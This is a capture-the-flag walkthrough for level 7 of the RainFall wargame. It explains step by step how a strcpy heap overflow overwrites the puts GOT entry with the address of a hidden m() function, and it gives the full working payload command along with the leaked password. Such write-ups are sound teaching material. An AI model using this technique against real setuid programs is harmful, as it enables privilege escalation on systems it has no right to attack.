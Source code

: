 Level7 protections:
```Shell
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level7/level7
```

Level7 rights:
```Shell
-rwsr-s---+ 1 level8 users  5648 Mar  9  2016 level7
```

Here is what we get when testing:
```Shell
level7@RainFall:~$ ./level7
Segmentation fault (core dumped)
level7@RainFall:~$ ./level7 asd
Segmentation fault (core dumped)
level7@RainFall:~$ ./level7 asd bgj
~~
```

It's a bit similar to the previous one.
Decompiling with Ghidra on https://dogbolt.org/ shows five things:
- the program takes two arguments and does four `malloc()`, two for arrays and two for each of their second index
- `strcpy()` is used twice to copy the arguments at each index
- `fopen()` and `fgets()` fetch and store the password in a global `c` variable
- the program uses `puts()` to display `~~`, when receiving two args
- there is an unused `m()` function that prints the content of `c`

The goal is therefore to find a way to call `m()` after the password has been loaded into `c`. Maybe we can replace the last `puts()` call by a call to `m()`. If we can find where the address of `puts()` is stored in GOT, we can replace it with `m()`. But how can we overwrite this address?
We know that `strcpy()` is vulnerable to buffer overflows. It means that whatever we send as arguments to the program can potentially overwrite slots in the memory. Let's use `ltrace` to calculate the correct offset for our payload:
```Shell
level7@RainFall:~$ ltrace ./level7
[...]
// malloc(8) = 0x0804a008  // array1
malloc(8) = 0x0804a018  // arg1
malloc(8) = 0x0804a028  // array2
// malloc(8) = 0x0804a038  // arg2
```
Since we want to store `puts()` at the second index of the second array, we must:
- overflow arg1
- reach the second array
- reach the second index of the second array.
We must subtract 0x0804a028(array2) - 0x0804a018(arg1) = 16. This would overwrite enough to reach the start of the second array. But what we want is reaching the second index, so let's add 4 (half of 8-byte), making it a total of 20 bytes of padding.

Next, let's find where `puts()` is located in GOT:
```Shell
(gdb) disas main
[...]
0x080485f7 <+214>:   call   0x8048400 <puts@plt>
[...]
(gdb) disas 0x8048400
[...]
0x08048400 <+0>:     jmp    *0x8049928
[...]
```
The jump is done to the address of `puts()`, which converted to little endian is: `\x28\x99\x04\x08`. So this is where we want to store the address of `m()`.

Let's find what it is:
```Shell
(gdb) x m
0x80484f4 <m>:  0x83e58955
```
In Little Endian: `\xf4\x84\x04\x08`.

Finally, our two arguments will be:
- $(python -c 'print("A" * 20 + "\x28\x99\x04\x08")') which is the padding + the address of `puts()`
- $(python -c 'print("\xf4\x84\x04\x08")') which is the address of `m()`

And the result is:
```Shell
level7@RainFall:~$ ./level7 $(python -c 'print("A" * 20 + "\x28\x99\x04\x08")') $(python -c 'print("\xf4\x84\x04\x08")')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1721403522
```
